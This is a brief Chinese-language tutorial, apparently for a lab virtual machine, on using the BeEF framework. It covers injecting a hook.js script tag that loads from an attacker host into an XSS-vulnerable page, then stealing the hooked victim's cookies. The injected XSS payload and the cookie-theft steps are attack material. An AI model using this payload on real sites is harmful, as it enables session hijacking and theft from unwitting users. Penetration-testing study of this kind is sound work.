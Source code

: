 
# Beef使用教程

**beef-xss启动beef**

![image-20220320164321690](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220320164321690.png)



打开beff网页，登录

![image-20220320164432972](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220320164432972.png)





![image-20220320164538192](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220320164538192.png)



复制上面启动beef的js语句<script src="http://127.0.0.1:3000/hook.js"></script>

地址要改为虚拟机的ip，<script src="http://10.1.16.8:3000/hook.js"></script>



插入到有XSS漏洞的界面



![image-20220320164748733](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220320164748733.png)

对方查看后台后，beef自动生成一个可操控的shell



![image-20220320164853512](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220320164853512.png)



连接成功后，我们可以使用beef盗取该用户的cookie，html源码，各种调用等，

如下我们盗取cookie



![image-20220320165021529](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220320165021529.png)



可以看到界面有一个Get Cookie

![image-20220320165046401](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220320165046401.png)



点击Execute即可获取cookie

![image-20220320165225552](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220320165225552.png)



还有跳转页等其他功能
